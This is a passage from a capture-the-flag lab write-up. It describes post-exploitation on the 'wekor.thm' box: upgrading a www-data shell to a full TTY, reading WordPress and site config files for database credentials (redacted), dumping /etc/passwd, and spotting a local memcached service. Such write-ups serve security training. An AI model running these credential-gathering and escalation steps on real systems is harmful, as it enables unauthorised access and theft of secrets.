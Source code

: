 ## Escalation To Orka

I had a shell, but only as www-data. So I needed to get access to a real user. But first, I solidified my shell to get auto completion and avoid disconnection if I hit CTRL-c.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL-z
stty raw -echo;fg
```

I then started looking around the server. I found two config file that contained the database password. I already had all I needed from the DB, but I tried that password for the user and root. I failed.

```bash
$ cat /var/www/html/it-next/config.php
...
define("DB_SERVER","localhost");
define("DB_USERNAME" , "root");
define("DB_PASSWORD", "REDACTED");
define("DB_DATABASE", "coupons");
...
```

```bash
$ cat /var/www/html/site.wekor.thm/wordpress/wp-config.php
...
define( 'DB_NAME', 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'root' );
/** MySQL database password */
define( 'DB_PASSWORD', 'REDACTED' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
...
```

I then looked at the passwd file. 
```bash
www-data@osboxes:/$ cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
...

Orka:x:1001:1001::/home/Orka:/bin/bash
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
memcache:x:123:130:Memcached,,,:/nonexistent:/bin/false
```

The server had memcache running.
```bash
www-data@osboxes:/$ ps aux | grep memca
ps aux | grep memca
memcache   963  0.0  0.3  47724  3372 ?        Ssl  13:59   0:00 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1
www-data  1733  0.0  0.0   3036   788 pts/8    S+   14:06   0:00 grep memca
```
